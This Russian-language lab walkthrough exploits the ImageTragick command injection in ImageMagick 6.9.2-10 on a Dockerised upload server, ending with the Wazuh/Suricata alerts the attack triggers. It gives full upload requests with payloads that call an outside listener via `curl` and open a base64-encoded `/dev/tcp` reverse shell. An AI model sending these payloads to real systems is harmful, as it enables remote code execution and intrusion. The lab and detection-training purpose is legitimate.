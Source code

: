 # Imagemagick Command Injection

ImageMagick — это широкий набор инструментов для обработки изображений, многие производители называют эту программу для обработки изображений, включая масштабирование, обрезку, установку водяных знаков, преобразование формата и многого другого. Однако некоторые исследователи обнаружили, что когда пользователь переходит к изображению, содержащему «деформированный контент», это может вызвать уязвимости внедрения команд.

Сотрудники внешней безопасности создали для этого веб-сайт: https://imagetragick.com/ с подробным описанием уязвимости и способах её эксплуатации

### Эксплуатация уязвимости

Для запуска PHP-сервера, включающего в себя Imagemagick 6.9.2-10, выполните команду:

```
docker compose up -d
```

После запуска сервера по адресу `http://ваш-ip:8080/` будет доступна страница с возможностью загрузки файлов

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно отправить POST-запрос с полезной нагрузкой:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 312

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "10.10.11.130:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

Видно, что после его отправки мы получили http-запрос

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

С помощью данной уязвимости мы можем получить обратную оболочку, отправив следующий запрос:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 378

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= | base64 -d | bash`"||id " )'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

\*\*\*

Здесь c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= - это закодированная в base64 полезная нагрузка для получения обратной оболочки

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Сгенерировать свою собственную нагрузку можно на [https://www.revshells.com/](https://www.revshells.com/)

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

\*\*\*

После отправки запроса с созданным пэйлоадом мы можем получить обратную оболочку поднятого контейнера

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.
